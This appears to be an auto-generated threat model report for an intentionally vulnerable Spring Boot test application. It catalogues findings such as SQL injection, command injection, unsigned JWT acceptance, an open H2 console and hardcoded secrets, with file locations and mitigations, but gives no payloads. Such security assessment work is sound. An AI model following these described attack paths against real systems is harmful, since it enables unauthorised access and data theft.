# Threat Model - docs

_Generated by appsec-advisor v0.5.2-dev (analysis v5)_


---

> | | |
> |---|---|
> | **Project** | Appsec Verification Target v0.0.1-SNAPSHOT |
> | **Description** | Local-only application security verification fixture |
> | **Repository** | git@github\.com:matthiasrohr/insecure-spring-`app.git` |
> | **Homepage** | https://github.com/matthiasrohr/insecure-spring-app |
> | **Runtime** | Java 17, spring-boot-starter-web, spring-boot-starter-data-jpa, spring-boot-starter-security, spring-boot-starter-actuator, spring-boot-starter-thymeleaf |

---

## Changelog

_Append-only history of assessment runs. Most recent first._

| Version | Date | Mode | Depth | Reasoning | Baseline → Current | Δ Threats | Code | Note |
|--------|---------------------|--------|--------|--------------|------------------|----------------|--------|---------------|
| v1 | 2026-08-02 20:17 CEST | full | standard | sonnet-economy | _(initial)_ | 51 total | - | first full scan |

---

## Table of Contents

- [Management Summary](#management-summary)
- [Critical Attack Tree](#critical-attack-tree)
1. [System Overview](#1-system-overview)
   - [Scope](#scope)
   - [Trust Boundaries](#trust-boundaries)
2. [Architecture Diagrams](#2-architecture-diagrams)
   - [2.1 System Context](#21-system-context)
   - [2.2 Container Architecture](#22-container-architecture)
   - [2.3 Components](#23-components)
   - [2.4 Technology Architecture](#24-technology-architecture)
3. [Attack Walkthroughs](#3-attack-walkthroughs)
   - [3.1 SQL Injection Authentication Bypass in authenticateRaw](#31-sql-injection-authentication-bypass-in-authenticateraw)
   - [3.2 JWT parsed without signature verification src/main/java/com/example/appsecver…](#32-jwt-parsed-without-signature-verification-srcmainjavacomexampleappsecver)
   - [3.3 SQL Injection in Spring Boot Web Application](#33-sql-injection-in-spring-boot-web-application)
   - [3.4 H2 Web Console Exposed Without Authentication Allowing Full Database Access](#34-h2-web-console-exposed-without-authentication-allowing-full-database-access)
   - [3.5 Legacy Admin Board Fully Open Without Authentication in Security Config](#35-legacy-admin-board-fully-open-without-authentication-in-security-config)
   - [3.6 Mass Assignment Privilege Escalation in Spring Boot Web Application](#36-mass-assignment-privilege-escalation-in-spring-boot-web-application)
   - [3.7 Hardcoded Secrets in Dockerfile ENV Layers (Dockerfile)](#37-hardcoded-secrets-in-dockerfile-env-layers-dockerfile)
   - [3.8 OS Command Injection in Tool Controller](#38-os-command-injection-in-tool-controller)
4. [Assets](#4-assets)
5. [Attack Surface](#5-attack-surface)
   - [5.1 Unauthenticated Entry Points (87)](#51-unauthenticated-entry-points-87)
   - [5.2 Authenticated Entry Points (1)](#52-authenticated-entry-points-1)
6. [Security Architecture](#6-security-architecture)
   - [6.1 Security Control Overview](#61-security-control-overview)
   - [6.2 Identity and Authentication Controls](#62-identity-and-authentication-controls)
   - [6.3 Session and Token Controls](#63-session-and-token-controls)
   - [6.4 Authorization Controls](#64-authorization-controls)
   - [6.5 Query Construction and Data Access Controls](#65-query-construction-and-data-access-controls)
   - [6.6 Input Boundary Validation Controls](#66-input-boundary-validation-controls)
   - [6.7 Output Encoding and Rendering Controls](#67-output-encoding-and-rendering-controls)
   - [6.8 Browser and Cross-Origin Controls](#68-browser-and-cross-origin-controls)
   - [6.9 Cryptography Secrets and Data Protection](#69-cryptography-secrets-and-data-protection)
   - [6.10 File Parser and Outbound Request Controls](#610-file-parser-and-outbound-request-controls)
   - [6.11 Operations Runtime and Supply Chain Controls](#611-operations-runtime-and-supply-chain-controls)
   - [6.12 Real-time and Not Applicable Controls](#612-real-time-and-not-applicable-controls)
   - [6.13 Defense-in-Depth Summary](#613-defense-in-depth-summary)
7. [Weakness Register](#7-weakness-register)
8. [Findings Register](#8-findings-register)
9. [Abuse Cases](#9-abuse-cases)
10. [Mitigation Register](#10-mitigation-register)
11. [Out of Scope](#11-out-of-scope)
   - [Components Not Individually Analyzed](#components-not-individually-analyzed)
- [Appendix: Run Statistics](#appendix-run-statistics)
- [Appendix A - Vektor Taxonomy](#appendix-a-vektor-taxonomy)

---

## Management Summary

### Verdict

🔴 This application exposes multiple independently exploitable paths to full database access, server takeover, and administrative privilege gain - all reachable without valid credentials from the public internet. The breadth of missing controls spans every layer from login through data storage and container runtime.

**Risk distribution:** 🔴 Critical: 10 · 🟠 High: 29 · 🟡 Medium: 4 · 🟢 Low: 0 · **Total: 43**<br/>**Assessment evidence:** 42 confirmed-exploitable finding(s) · 2 implementation weakness(es) · 3 design weakness(es)


**Scope:** 3 of 5 components received full STRIDE analysis - the externally-reachable, authentication-bearing, and business-critical surface. 1 further component(s) received a reduced-budget screening pass (all six STRIDE categories, no verification greps) and are marked `Screened` in the component table. The other 1 (lower-priority / internal) were not individually assessed at this depth (see [§1 Scope](#scope)).

<br/>

**Left unchecked, any of these scenarios could be triggered by a single attacker with no prior access:**

<blockquote style="border-left: 3px solid #dc2626; background: #fef2f2; padding: 16px 20px; margin: 0;">

- **All user passwords readable without login** — A publicly accessible data service and an unauthenticated database console expose every stored password to any internet visitor. *(🔴 [F-007](#f-007), 🔴 [F-006](#f-006) → [W-002](#w-002))*
- **Server remotely taken over via injected commands** — User-supplied text is passed directly to the operating system, giving any internet visitor full control over the server. *(🔴 [F-003](#f-003), 🟠 [F-016](#f-016))*
- **Login bypassed without valid credentials** — The main authentication check and the administrative panel both accept requests without any valid account, granting immediate full access. *(🔴 [F-001](#f-001), 🔴 [F-009](#f-009), 🔴 [F-008](#f-008) → [W-002](#w-002), [W-001](#w-001))*
- **Secrets and passwords baked into the container image** — Database passwords, encryption keys, and a hardcoded admin account ship inside the container image and are readable by anyone who can pull it. *(🔴 [F-005](#f-005), 🟠 [F-013](#f-013), 🔴 [F-015](#f-015))*
- **Any user can silently promote themselves to admin** — Profile update requests accept fields including role assignment, allowing any logged-in user to gain administrator privileges in one action. *(🔴 [F-010](#f-010))* — ✓ verified attack path
- **Active sessions forged and account actions forced** — Session tokens are predictable and forgeable, and cross-site request protection is absent on every account-altering action. *(🟠 [F-014](#f-014), 🟠 [F-023](#f-023), 🟠 [F-024](#f-024))*

</blockquote>

<br/>

Every authentication, data-access, and deployment control is either absent or trivially bypassed; no component of this application is safe to expose to internet traffic in its current state.

### Top Weaknesses

The systemic root-cause problems behind the findings - the classes to fix, not just individual bugs. Each links to the full [Weakness Register](#7-weakness-register) with its findings and remediation.

- 🔴 **[W-001](#w-001) - Endpoints are reachable without enforced authentication** (Critical) - Sensitive API routes and real-time channels are exposed without an enforced authentication check at the endpoint boundary. _Proven by [F-008](#f-008)._
- 🔴 **[W-002](#w-002) - Authorization is implemented route by route** (Critical) - Authorization depends on per-handler checks instead of a policy boundary that consistently enforces role, ownership, and tenant scope. _Proven by [F-006](#f-006), [F-009](#f-009), [F-045](#f-045) (+1 more)._
- 🟠 **[W-003](#w-003) - Input handling lacks enforced boundary validation** (High) - Request handlers do not validate input against one enforced server-side schema or allowlist at the boundary - validation is either absent on the vulnerable parameters or limited to rejecting select… _Proven by [F-033](#f-033)._

### Security Posture & Top Threats

**Figure 1 - Architecture & Top Threats**

Architecture tiers top-to-bottom (External Actors → Client → Application → Data) with the top threats per component. The in-figure legend on the right explains the attack scenarios, severity dots and symbols. Dashed slate lines mark trust-boundary crossings, labelled with the `tb-N` ids catalogued in [§1 Trust Boundaries](#trust-boundaries).



**Figure 2 - Risk Flow: Actor → Tier → Impact**

Heatmap: **actors** (left) → **architecture tiers** (middle, Client → Application → Data) → **impact** (right). Numbered red arrows ①–⑤ are the threats enumerated in the Top Threats table below.



**Threat actors.** The actors below drive the numbered attack paths in the figures above.

- **Anonymous Internet Attacker** — no account; registers in seconds when needed; drives ① Hardcoded Secrets & Weak Cryptography, ② Insecure Query Construction & Data Access, ③ Remote Code Execution (unsafe eval), ④ Sensitive File & Secret Exposure.
- **Authenticated Internet Attacker** — owns a regular account; logged in; drives ⑤ Broken Authorization & Access Control.

**5 structural threats**, grouped by weakness class - each row is one threat, not one finding. *Threat Description* states the general architectural weakness (STRIDE in brackets); *Findings* lists the concrete instances, each linked to [§8 Findings Register](#8-findings-register) with its component; *Risk & Impact* combines severity with business consequence.

| # | Threat Description | Findings (→ Component) | Risk & Impact | Fix |
|---|------------------------------------|------------------------------------------------|--------------------------|--------|
| <a id="path-auth-bypass"></a>① | **Hardcoded Secrets & Weak Cryptography** _(S·E)_<br/>Multiple authentication layers are either absent or trivially defeated, allowing unauthenticated access to administrative interfaces and database management consoles. | <span style="white-space:nowrap">🔴&nbsp;[F-001](#f-001)</span> - SQL Injection Authentication Bypass in authenticateRaw (`LegacySqliteUserStore.java:64`) <span style="white-space:nowrap">→&nbsp;[C-01](#c-01)</span>&nbsp;Spring Boot Web Application<br/><span style="white-space:nowrap">🔴&nbsp;[F-002](#f-002)</span> - JWT parsed without signature verification (`LegacyJwtVerifier.java:17`) <span style="white-space:nowrap">→&nbsp;[C-01](#c-01)</span>&nbsp;Spring Boot Web Application<br/><span style="white-space:nowrap">🔴&nbsp;[F-005](#f-005)</span> - Hardcoded Secrets in Dockerfile ENV Layers (`Dockerfile`) (`Dockerfile:12`) <span style="white-space:nowrap">→&nbsp;[C-05](#c-05)</span>&nbsp;Docker Container Image<br/><span style="white-space:nowrap">🔴&nbsp;[F-008](#f-008)</span> - Missing Authentication on H2 SQL Console (`application.yml:11`) <span style="white-space:nowrap">→&nbsp;[C-02](#c-02)</span>&nbsp;H2 In-Memory Database<br/><span style="white-space:nowrap">🔴&nbsp;[F-009](#f-009)</span> - Legacy Admin Board Fully Open Without Authentication (`SecurityConfig.java:41`) <span style="white-space:nowrap">→&nbsp;[C-01](#c-01)</span>&nbsp;Spring Boot Web Application<br/><span style="white-space:nowrap">🔴&nbsp;[F-012](#f-012)</span> - Unsigned JWT Accepted by LegacyJwtVerifier (algorithm none) (`LegacyJwtVerifier.java:15`) <span style="white-space:nowrap">→&nbsp;[C-01](#c-01)</span>&nbsp;Spring Boot Web Application<br/><span style="white-space:nowrap">🔴&nbsp;[F-015](#f-015)</span> - Hardcoded Weak Seed Credentials for legacy_admin Account (`LegacySqliteUserStore.java:37`) <span style="white-space:nowrap">→&nbsp;[C-01](#c-01)</span>&nbsp;Spring Boot Web Application<br/><span style="white-space:nowrap">🟠&nbsp;[F-017](#f-017)</span> - Hand-rolled XOR / repeating-key cipher (`HomegrownCipher.java:14`) <span style="white-space:nowrap">→&nbsp;[C-01](#c-01)</span>&nbsp;Spring Boot Web Application<br/><span style="white-space:nowrap">🟠&nbsp;[F-018](#f-018)</span> - Hand-rolled XOR / repeating-key cipher (`HomegrownCipher.java:23`) <span style="white-space:nowrap">→&nbsp;[C-01](#c-01)</span>&nbsp;Spring Boot Web Application<br/><span style="white-space:nowrap">🟠&nbsp;[F-019](#f-019)</span> - Non-cryptographic RNG in a security module Java (`LegacyTokenService.java:10`) <span style="white-space:nowrap">→&nbsp;[C-01](#c-01)</span>&nbsp;Spring Boot Web Application<br/><span style="white-space:nowrap">🔴&nbsp;[F-035](#f-035)</span> - AES/ECB Mode with Hardcoded Key in LegacyCryptoService (`LegacyCryptoService.java:13`) <span style="white-space:nowrap">→&nbsp;[C-01](#c-01)</span>&nbsp;Spring Boot Web Application<br/><span style="white-space:nowrap">🔴&nbsp;[F-036](#f-036)</span> - XOR Cipher with Hardcoded Key Used for Password Storage (HomegrownCipher) (`HomegrownCipher.java:8`) <span style="white-space:nowrap">→&nbsp;[C-01](#c-01)</span>&nbsp;Spring Boot Web Application<br/><span style="white-space:nowrap">🟠&nbsp;[F-037](#f-037)</span> - MD5 Used for Password Hashing in LegacyPasswordService (`LegacyPasswordService.java:15`) <span style="white-space:nowrap">→&nbsp;[C-01](#c-01)</span>&nbsp;Spring Boot Web Application<br/><span style="white-space:nowrap">🟠&nbsp;[F-041](#f-041)</span> - Passwords Stored in Plaintext Without Hashing in Legacy SQLite Store (`LegacySqliteUserStore.java:100`) <span style="white-space:nowrap">→&nbsp;[C-01](#c-01)</span>&nbsp;Spring Boot Web Application<br/><span style="white-space:nowrap">🟠&nbsp;[F-047](#f-047)</span> - Insecure ECB cipher mode Java (`LegacyCryptoService.java:17`) <span style="white-space:nowrap">→&nbsp;[C-01](#c-01)</span>&nbsp;Spring Boot Web Application<br/><span style="white-space:nowrap">🟡&nbsp;[F-048](#f-048)</span> - Broken hash primitive Java (`LegacyPasswordService.java:15`) <span style="white-space:nowrap">→&nbsp;[C-01](#c-01)</span>&nbsp;Spring Boot Web Application | 🔴 **Critical**<br/>Full Admin Takeover | <span style="white-space:nowrap">● [M-001](#m-001)</span><br/><span style="white-space:nowrap">● [M-002](#m-002)</span> |
| <a id="path-injection"></a>② | **Insecure Query Construction & Data Access** _(T·I)_<br/>Unparameterized database queries and unsanitized external parser input allow unauthenticated attackers to extract or corrupt arbitrary data records. | <span style="white-space:nowrap">🔴&nbsp;[F-001](#f-001)</span> - SQL Injection Authentication Bypass in authenticateRaw (`LegacySqliteUserStore.java:64`) <span style="white-space:nowrap">→&nbsp;[C-01](#c-01)</span>&nbsp;Spring Boot Web Application<br/><span style="white-space:nowrap">🔴&nbsp;[F-003](#f-003)</span> - OS Command Injection via Name Parameter (`ToolController.java:18`) <span style="white-space:nowrap">→&nbsp;[C-01](#c-01)</span>&nbsp;Spring Boot Web Application<br/><span style="white-space:nowrap">🔴&nbsp;[F-004](#f-004)</span> - SQL Injection (`OrderLookupDao.java:22`) <span style="white-space:nowrap">→&nbsp;[C-01](#c-01)</span>&nbsp;Spring Boot Web Application<br/><span style="white-space:nowrap">🟠&nbsp;[F-016](#f-016)</span> - Command injection Java (`ToolController.java:18`) <span style="white-space:nowrap">→&nbsp;[C-01](#c-01)</span>&nbsp;Spring Boot Web Application<br/><span style="white-space:nowrap">🟠&nbsp;[F-026](#f-026)</span> - XML External Entity Injection in XmlPreviewController (XXE) (`XmlPreviewController.java:22`) <span style="white-space:nowrap">→&nbsp;[C-01](#c-01)</span>&nbsp;Spring Boot Web Application | 🔴 **Critical**<br/>Customer Data Exfiltration | <span style="white-space:nowrap">● [M-001](#m-001)</span><br/><span style="white-space:nowrap">● [M-003](#m-003)</span> |
| <a id="path-remote-code-execution"></a>③ | **Remote Code Execution (unsafe eval)** _(E)_<br/>User-supplied input is passed directly to the operating system shell, giving any internet attacker full control over the server process. | <span style="white-space:nowrap">🔴&nbsp;[F-003](#f-003)</span> - OS Command Injection via Name Parameter (`ToolController.java:18`) <span style="white-space:nowrap">→&nbsp;[C-01](#c-01)</span>&nbsp;Spring Boot Web Application<br/><span style="white-space:nowrap">🟠&nbsp;[F-016](#f-016)</span> - Command injection Java (`ToolController.java:18`) <span style="white-space:nowrap">→&nbsp;[C-01](#c-01)</span>&nbsp;Spring Boot Web Application | 🔴 **Critical**<br/>Full Server Compromise | <span style="white-space:nowrap">● [M-003](#m-003)</span><br/><span style="white-space:nowrap">◕ [M-016](#m-016)</span> |
| <a id="path-sensitive-data-exposure"></a>④ | **Sensitive File & Secret Exposure** _(I)_<br/>Credentials and user passwords are exposed through unauthenticated endpoints, baked into container images, and written to application logs in cleartext. | <span style="white-space:nowrap">🔴&nbsp;[F-005](#f-005)</span> - Hardcoded Secrets in Dockerfile ENV Layers (`Dockerfile`) (`Dockerfile:12`) <span style="white-space:nowrap">→&nbsp;[C-05](#c-05)</span>&nbsp;Docker Container Image<br/><span style="white-space:nowrap">🔴&nbsp;[F-006](#f-006)</span> - H2 Web Console Exposed Without Authentication Allowing Full Database Access (`SecurityConfig.java:32`) <span style="white-space:nowrap">→&nbsp;[C-01](#c-01)</span>&nbsp;Spring Boot Web Application<br/><span style="white-space:nowrap">🔴&nbsp;[F-007](#f-007)</span> - Unauthenticated GET /api/legacy-sqlite/users Returns All Plaintext Passwords (`LegacySqliteAuthController.java:65`) <span style="white-space:nowrap">→&nbsp;[C-01](#c-01)</span>&nbsp;Spring Boot Web Application<br/><span style="white-space:nowrap">🟠&nbsp;[F-028](#f-028)</span> - Cleartext Credentials Written to Application Logs (CredentialLoggingFilter) (`CredentialLoggingFilter.java:25`) <span style="white-space:nowrap">→&nbsp;[C-01](#c-01)</span>&nbsp;Spring Boot Web Application<br/><span style="white-space:nowrap">🟠&nbsp;[F-032](#f-032)</span> - Cleartext Credential Store Baked into Image (`Dockerfile`) (`Dockerfile:18`) <span style="white-space:nowrap">→&nbsp;[C-05](#c-05)</span>&nbsp;Docker Container Image<br/><span style="white-space:nowrap">🟠&nbsp;[F-033](#f-033)</span> - Path Traversal via Name Parameter in (`FileReadController.java:19`) <span style="white-space:nowrap">→&nbsp;[C-01](#c-01)</span>&nbsp;Spring Boot Web Application<br/><span style="white-space:nowrap">🟠&nbsp;[F-034](#f-034)</span> - Spring Actuator Fully Exposed with show-values:ALWAYS and No Authentication (`application.yml:33`) <span style="white-space:nowrap">→&nbsp;[C-01](#c-01)</span>&nbsp;Spring Boot Web Application<br/><span style="white-space:nowrap">🟠&nbsp;[F-038](#f-038)</span> - Server-Side Request Forgery via Unrestricted URL Fetch (`IntegrationController.java:23`) <span style="white-space:nowrap">→&nbsp;[C-01](#c-01)</span>&nbsp;Spring Boot Web Application<br/><span style="white-space:nowrap">🟠&nbsp;[F-040](#f-040)</span> - SQLite Credential Database Baked Into Docker Image via COPY . /app (`legacy-auth.sqlite`) <span style="white-space:nowrap">→&nbsp;[C-03](#c-03)</span>&nbsp;Legacy SQLite Auth Backend | 🔴 **Critical**<br/>Customer Data Exfiltration | <span style="white-space:nowrap">● [M-005](#m-005)</span><br/><span style="white-space:nowrap">● [M-006](#m-006)</span> |
| <a id="path-privilege-escalation"></a>⑤ | **Broken Authorization & Access Control** _(E·I)_<br/>Authenticated users can elevate their own roles to administrator through unguarded profile update fields and forgeable session identifiers. | <span style="white-space:nowrap">🔴&nbsp;[F-006](#f-006)</span> - H2 Web Console Exposed Without Authentication Allowing Full Database Access (`SecurityConfig.java:32`) <span style="white-space:nowrap">→&nbsp;[C-01](#c-01)</span>&nbsp;Spring Boot Web Application<br/><span style="white-space:nowrap">🔴&nbsp;[F-009](#f-009)</span> - Legacy Admin Board Fully Open Without Authentication (`SecurityConfig.java:41`) <span style="white-space:nowrap">→&nbsp;[C-01](#c-01)</span>&nbsp;Spring Boot Web Application<br/><span style="white-space:nowrap">🔴&nbsp;[F-010](#f-010)</span> - Mass Assignment Privilege Escalation via PUT /api/profile/me (ProfileController) (`ProfileController.java:44`) <span style="white-space:nowrap">→&nbsp;[C-01](#c-01)</span>&nbsp;Spring Boot Web Application<br/><span style="white-space:nowrap">🟠&nbsp;[F-014](#f-014)</span> - Forged Session Token via Base64-Encoded User ID (HomegrownSessionService) (`HomegrownSessionService.java:21`) <span style="white-space:nowrap">→&nbsp;[C-01](#c-01)</span>&nbsp;Spring Boot Web Application<br/><span style="white-space:nowrap">🔴&nbsp;[F-045](#f-045)</span> - Insecure Direct Object Reference (`OrderAccessController.java:24`) <span style="white-space:nowrap">→&nbsp;[C-01](#c-01)</span>&nbsp;Spring Boot Web Application<br/><span style="white-space:nowrap">🔴&nbsp;[F-046](#f-046)</span> - Unauthenticated Admin Report Endpoint Discloses Aggregate User and Order Data (`SecurityConfig.java:34`) <span style="white-space:nowrap">→&nbsp;[C-01](#c-01)</span>&nbsp;Spring Boot Web Application | 🔴 **Critical**<br/>Full Admin Takeover | <span style="white-space:nowrap">● [M-006](#m-006)</span><br/><span style="white-space:nowrap">● [M-009](#m-009)</span> |

_STRIDE: S spoofing · T tampering · R repudiation · I information disclosure · D denial of service · E elevation of privilege. Risk, findings, components, impact and Fix are derived deterministically; only the one-line weakness description is authored._

**Verified attack chains.** 3 fully viable ([AC-T-002](#ac-t-002), [AC-T-003](#ac-t-003), [AC-T-006](#ac-t-006)). These chains combine individual findings into end-to-end exploitation paths verified step-by-step against the code - see [§9 Abuse Cases](#9-abuse-cases) for the per-step breakdown and blocking mitigations.

### Top Mitigations

Highest-impact P1/P2 mitigations - 17 of 44 qualifying (50 total). Full detail in [§10 Mitigation Register](#10-mitigation-register). All 17 mitigation(s) that fix a Critical finding are always listed here.

| # | Component | Mitigation | Addresses | Effort |
|---|----------------------|------------------------------------------------|------------------------------------------------|------|
| **1** | [C-01](#c-01) — Spring Boot Web Application | ● [M-001](#m-001) — Use parameterized database queries (`LegacySqliteUserStore.java:64`) | 🔴 [F-001](#f-001) — SQL Injection Authentication Bypass in authenticateRaw (`src/main/java/com/example/appsecverificationtarget/authentication/LegacySqliteUserStore.java`) | Low |
| **2** | [C-01](#c-01) — Spring Boot Web Application | ● [M-003](#m-003) — Eliminate shell invocation in ToolController.lookup and validate input against… (`ToolController.java:18`) | 🔴 [F-003](#f-003) — OS Command Injection via Name Parameter (`ToolController.lookup`) | Low |
| **3** | [C-01](#c-01) — Spring Boot Web Application | ● [M-004](#m-004) — Use parameterized database queries (`OrderLookupDao.java:22`) | 🔴 [F-004](#f-004) — SQL Injection (`src/main/java/com/example/appsecverificationtarget/inputvalidation/OrderLookupDao.java`) | Low |
| **4** | [C-01](#c-01) — Spring Boot Web Application | ● [M-006](#m-006) — Enforce server-side authorization on every endpoint (`SecurityConfig.java:32`) | 🔴 [F-006](#f-006) — H2 Web Console Exposed Without Authentication Allowing Full Database Access (`src/main/java/com/example/appsecverificationtarget/config/SecurityConfig.java`) | Low |
| **5** | [C-01](#c-01) — Spring Boot Web Application | ● [M-007](#m-007) — Stop exposing internal information to clients (`LegacySqliteAuthController.java:65`) | 🔴 [F-007](#f-007) — Unauthenticated GET /api/legacy-sqlite/users Returns All Plaintext Passwords (`src/main/java/com/example/appsecverificationtarget/authentication/LegacySqliteAuthController.java`) | Low |
| **6** | [C-01](#c-01) — Spring Boot Web Application | ● [M-009](#m-009) — Enforce server-side authorization on every endpoint (`SecurityConfig.java:41`) | 🔴 [F-009](#f-009) — Legacy Admin Board Fully Open Without Authentication (`src/main/java/com/example/appsecverificationtarget/config/SecurityConfig.java`) | Low |
| **7** | [C-01](#c-01) — Spring Boot Web Application | ● [M-010](#m-010) — Allowlist client-controlled fields (`ProfileController.java:44`) | 🔴 [F-010](#f-010) — Mass Assignment Privilege Escalation via PUT /api/profile/me (`src/main/java/com/example/appsecverificationtarget/accesscontrol/ProfileController.java`) | Low |
| **8** | [C-01](#c-01) — Spring Boot Web Application | ● [M-002](#m-002) — Enforce JWT signature and algorithm verification (`LegacyJwtVerifier.java:17`) | 🔴 [F-002](#f-002) — JWT parsed without signature verification (`src/main/java/com/example/appsecverificationtarget/authentication/LegacyJwtVerifier.java`) | Medium |
| **9** | [C-02](#c-02) — H2 In-Memory Database | ● [M-008](#m-008) — Require authentication on every exposed endpoint (`application.yml:11`) | 🔴 [F-008](#f-008) — Missing Authentication on H2 SQL Console (`src/main/resources/application.yml`) | Low |
| **10** | [C-05](#c-05) — Docker Container Image | ● [M-005](#m-005) — Move secrets to a managed secret store (`Dockerfile:12`) | 🔴 [F-005](#f-005) — Hardcoded Secrets in Dockerfile ENV Layers (Dockerfile) | Medium |
| **11** | [C-01](#c-01) — Spring Boot Web Application | ◕ [M-012](#m-012) — Enforce JWT signature and algorithm verification (`LegacyJwtVerifier.java:15`) | 🔴 [F-012](#f-012) — Unsigned JWT Accepted by LegacyJwtVerifier (`src/main/java/com/example/appsecverificationtarget/authentication/LegacyJwtVerifier.java`) | Low |
| **12** | [C-01](#c-01) — Spring Boot Web Application | ◕ [M-037](#m-037) — Restrict CORS to trusted origins (`CorsPolicyFilter.java:31`) | 🔴 [F-039](#f-039) — CORS Policy Reflects Any HTTP/HTTPS Origin with Allow-Credentials:true (`src/main/java/com/example/appsecverificationtarget/cors/CorsPolicyFilter.java`) | Low |
| **13** | [C-01](#c-01) — Spring Boot Web Application | ◕ [M-043](#m-043) — Enforce object-level (ownership) authorization (`OrderAccessController.java:24`) | 🔴 [F-045](#f-045) — Insecure Direct Object Reference (`src/main/java/com/example/appsecverificationtarget/accesscontrol/OrderAccessController.java`) | Low |
| **14** | [C-01](#c-01) — Spring Boot Web Application | ◕ [M-044](#m-044) — Enforce server-side authorization on every endpoint (`SecurityConfig.java:34`) | 🔴 [F-046](#f-046) — Unauthenticated Admin Report Endpoint Discloses Aggregate User and Order Data (`src/main/java/com/example/appsecverificationtarget/config/SecurityConfig.java`) | Low |
| **15** | [C-01](#c-01) — Spring Boot Web Application | ◕ [M-015](#m-015) — Move secrets to a managed secret store (`LegacySqliteUserStore.java:37`) | 🔴 [F-015](#f-015) — Hardcoded Weak Seed Credentials for legacy_admin Account (`src/main/java/com/example/appsecverificationtarget/authentication/LegacySqliteUserStore.java`) | Medium |
| **16** | [C-01](#c-01) — Spring Boot Web Application | ◕ [M-033](#m-033) — Move cryptographic keys to a managed secret store (`LegacyCryptoService.java:13`) | 🔴 [F-035](#f-035) — AES/ECB Mode with Hardcoded Key in LegacyCryptoService (`src/main/java/com/example/appsecverificationtarget/crypto/LegacyCryptoService.java`) | Medium |
| **17** | [C-01](#c-01) — Spring Boot Web Application | ◕ [M-034](#m-034) — Replace the weak cryptographic algorithm (`HomegrownCipher.java:8`) | 🔴 [F-036](#f-036) — XOR Cipher with Hardcoded Key Used for Password Storage (`src/main/java/com/example/appsecverificationtarget/crypto/HomegrownCipher.java`) | High |

*27 additional P1/P2 mitigations capped from the leader-board · 6 P3 backlog items in [§10 Mitigation Register](#10-mitigation-register). Sorted by priority (P1 first), then component, then leverage (most findings first), severity (Critical first), and effort (Low first).*

### Operational Strengths

Operational controls rated Adequate or Partial - grouped into broad clusters (full per-control breakdown in [§6](#6-security-architecture)). Clusters demoted to Weak by open Critical/High findings appear in [§6](#6-security-architecture) instead, not here.

| Strength | What's in Place | Effectiveness |
|----------------------|----------------------|-------------|
| **Container & Supply-Chain Hardening** | _Build-time and runtime hardening - minimal base image, non-root execution, dependency inventory._<br/>Lockfile hygiene<br/>Thymeleaf HTML Auto-Escaping<br/>Container Image Hardening | ✅ Adequate |


**Bottom line:** These controls narrow specific attack surfaces but none eliminates a Critical finding on its own.

---

<a id="critical-attack-chain"></a>
<a id="critical-attack-tree"></a>
## Critical Attack Tree

The root is the worst-case attacker goal; below it, each capability branch groups the Critical findings that achieve it. Branches feed the goal by OR - any single path suffices.

